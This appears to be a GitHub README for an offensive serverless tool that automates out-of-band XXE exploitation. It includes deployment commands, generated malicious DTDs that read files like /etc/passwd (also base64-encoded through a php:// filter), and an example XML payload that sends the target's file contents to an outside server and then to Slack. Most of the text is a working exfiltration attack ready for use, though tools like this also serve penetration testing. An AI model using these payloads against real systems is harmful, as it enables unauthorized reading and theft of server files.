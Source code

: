 # XXE Server
This example is based off a similar project I wrote a while ago, [xxetimes](https://github.com/ropnop/xxetimes). After discovering an OOB XXE vulnerability, exploitation is usually a very manual process that includes spinning up at least one listening server, customizing DTD files and parsing data dump output.

This serverless function provides two main functionalities to help:

 * Template generation and serving up of DTD files
 * Parsing encoded data in GET params and posting to Slack

The server will dynamically generate DTD files for HTTP data exfiltration using parameter expansion when the `/dtd` endpoint is hit. It accepts a `filename` parameter to create the file entity. It also supports PHP Base64 encoding when the `php` parameter is sent. The parameter expansion will send data to the same server at the `/data` endpoint.

The `/data` endpoint simply decodes any incoming data as part of the URL query and dumps it to a Slack webhook.

The function requires the `SLACK_WEBHOOK` environment variable

## Deployment
Since it is possible to view public `now.sh` deployment source code and environment variables, it is advisable to keep your Slack WEBHOOK_URL in a [now.sh secret](https://zeit.co/docs/v1/features/env-and-secrets)

```
$ now secret add slack-webhook-xxe https://hooks.slack.com/services/YOUR_WEBHOOK_HERE
```

And deploy with the environment variable:

```
$ now -e SLACK_WEBHOOK=@slack-webhook-xxe
```

## Usage
The `/dtd` endpoint is used to generate DTDs with parameter expansion. The two optional paramaters are `filename` and `php`. It's easiest to view the differences:

No params:
```
$ curl https://xxeserver-riigdrbgdd.now.sh/dtd
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

Filename specified:
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd"
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

PHP specified (will use base64 encoding)
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd&php=true"
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data64?%file;'>">
%all;
%send;
```

When explointing an XXE vulnerability, the XML sent to the server will therefore look something like this:
```
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/issue&php=true">
%dtd;
]>
<foobar>
<hello>world</hello>
</foobar>
```

When submitted, the contents of `/etc/issue` are dumped to Slack:
![xxe_data](../imgs/xxeserver_data.png)




